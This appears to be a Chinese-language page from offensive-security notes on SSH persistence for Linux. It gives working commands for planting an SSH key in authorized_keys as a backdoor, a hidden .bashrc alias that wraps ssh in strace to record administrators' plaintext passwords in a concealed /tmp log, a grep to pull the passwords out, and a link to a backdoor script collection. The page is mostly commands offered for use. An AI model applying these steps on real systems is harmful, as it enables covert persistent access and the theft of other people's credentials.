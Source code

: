 #### SSH公钥免密登录

```
ssh-keygen -t rsa //生成公钥
ls ~/.ssh/		//查看公钥位置，在id_rsa.pub里面看公钥
vim authorized_keys //将id_rsa.pub内容放到目标.ssh/authorized_keys里，如果没有需要自己创目录
```

这个是老生常谈的公钥免登陆，这种用法不只是用在留后门，还可以在一些特殊情况下获取一个交互的shell，如struts写入公钥，oracle写入公钥连接，Redis未授权访问等情景。

```
chmod 600 id_rsa
ssh -i id_rsa root@192.168.1.148
```

#### SSH Keylogger记录密码

当前系统如果存在strace的话，它可以跟踪任何进程的系统调用和数据，可以利用 strace 系统调试工具获取 ssh 的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。 在当前用户的 .bashrc 里新建一条 alias ，这样可以抓取他登陆其他机器的 ssh 密码

```
vim ~/.bashrc
添加alias ssh='strace -o /tmp/.sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'
source .bashrc    //刷新环境变量
```

`grep -A 9 'password'  /tmp/.sshpwd-1211月111668255299.log`  查看ssh登录密码 ![image-20221112202325850](../资源文件/图片/202303251637100.png)



#### SSH脚本后门

脚本在[RuoJi6/HackerPermKeeper (github.com)](https://github.com/RuoJi6/HackerPermKeeper)

![image-20230910113106437](../资源文件/图片/image-20230910113106437.png)

解压

```
unzip HackerPermKeeper_v3.0\ \(1\).zip 
```
